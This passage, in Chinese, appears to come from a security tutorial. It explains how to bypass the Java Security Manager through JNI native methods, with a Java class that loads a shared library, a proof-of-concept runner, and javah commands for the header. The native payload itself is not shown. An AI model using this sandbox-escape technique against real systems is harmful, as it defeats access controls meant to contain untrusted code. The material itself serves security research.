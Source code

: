 - 如果执行报错的话，可以参考https://github.com/codeplutos/java-security-manager-bypass/issues/2

## 本地方法调用绕过

- Java Security Manager是java库中的一个功能，而java的native方法是由jvm执行的，所以说native方法不收Java Security Manager管控

- 声明一个native方法

  ```
  package com.evil;
  
  public class EvilMethodClass {
  
      // 加载动态链接库
      static {
          System.load("/root/libEvilMethodClass.so");
      }
  
      // 声明native方法
      public static native String evilMethod(String name);
  }
  ```

- poc.java

  ```
  package com.evil;
  
  
  public class Poc {
      //Run with: -Djava.security.manager -Djava.security.policy==invoke-native-method.policy
      //这个poc需要在Linux上跑
      public static void main(String[] args){
          EvilMethodClass.evilMethod(args[0]);
      }
  }
  ```

- 生成.h头

  ```shell
  javac src/com/evil/EvilMethodClass.java -d ./bin
  javah -jni -classpath ./bin -d ./jni com.evil.EvilMethodClass
  javah -jni -classpath ./bin -o EvilMethodClass.h com.evil.EvilMethodClass
  ```

  ![image-20231109112944759](images/26.png)

